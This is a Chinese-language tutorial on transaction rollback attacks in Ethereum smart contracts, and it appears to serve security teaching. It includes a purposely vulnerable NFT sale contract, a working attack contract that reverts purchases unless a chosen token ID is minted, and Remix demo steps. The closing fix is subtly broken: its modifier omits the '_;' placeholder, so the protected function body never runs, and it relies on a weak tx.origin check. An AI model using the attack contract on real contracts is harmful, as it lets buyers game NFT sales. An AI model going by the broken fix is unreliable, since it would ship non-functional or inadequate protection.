


# 交易回滚攻击

## 原理分析

以太坊 EVM 支持交易回滚，合约可以使不满足条件的调用失败，从而回滚部分或者整个交易。

- 交易回滚

使用 `assert()`，`require()` 和 `revert()` 可以使不满足条件的调用失败，配合 `try`，`catch` 可以回滚部分或者整个交易。

- 回滚攻击

如果业务合约允许合约调用或者调用了第三方合约，那么合约调用和第三方合约就可以利用交易回滚，撤销不符合自己期望的执行结果，从而达成攻击的目的。

## 流程图示

- 交易回滚


- 回滚攻击


## 示例代码

这是一个简单的 NFT 合约示例，它的功能是购买 NFT。如果你看不出合约的问题，说明你正需要学习这节课。(这个合约有巨大漏洞，请不要直接使用在任何实际业务中)

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.12;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

interface INFT {
    function buyNFT() external payable;
}

contract NFT is ERC721 {
    uint256 tokenId;

    constructor() ERC721("NFT","NFT") {}

    function buyNFT() external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
}

contract TransactionRollbackAttack {
    INFT nft;
    uint256 tokenId;

    constructor(address _nft) {
        nft = INFT(_nft);
    }

    function doBuyNFT(uint256 _tokenId) external payable {
        tokenId = _tokenId;
        nft.buyNFT{value: msg.value}();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 _tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        require(tokenId == _tokenId, "NFT: not the correct token");
        return this.onERC721Received.selector;
    }
}
```

## 演示流程

1. 打开 [https://remix.ethereum.org/](https://remix.ethereum.org/)

2. 选择 solidity 版本为 0.8.12，部署 NFT 合约。

3. 将 NFT 合约地址作为参数部署 TransactionRollbackAttack 合约。

4. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，点击 transact，成功购买 tokenId 为 0 的 NFT。

5. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，购买 tokenId 为 0 的 NFT 失败。

## 修复问题

- 禁止合约调用
    ```solidity
    modifier noContract() {
        require(tx.origin == msg.sender, "NFT: not contract");
    }

    function buyNFT() noContract external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
    ```
    使用 noContract 来禁止合约调用，可以防止交易回滚攻击。